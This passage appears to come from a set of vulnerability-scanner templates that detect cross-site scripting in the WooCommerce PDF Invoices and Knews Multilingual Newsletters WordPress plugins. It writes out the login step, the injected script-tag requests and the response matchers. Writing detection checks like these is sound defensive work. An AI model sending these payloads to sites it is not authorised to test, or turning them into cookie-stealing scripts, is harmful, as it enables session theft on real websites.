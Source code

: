 ```
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=wpo_wcpdf_options_page&tab=documents&section=invoice&">\<script>alert(document.domain)\</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. >\<script>alert(document.domain)\</script>
    2. WooCommerce PDF Invoices
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Knews Multilingual Newsletters 1.1.0 - Cross-Site Scripting
## Description
- WordPress Knews Multilingual Newsletters 1.1.0 plugin contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - wordpress,xss,wp-plugin
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/knews/wysiwyg/fontpicker/?ff=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers
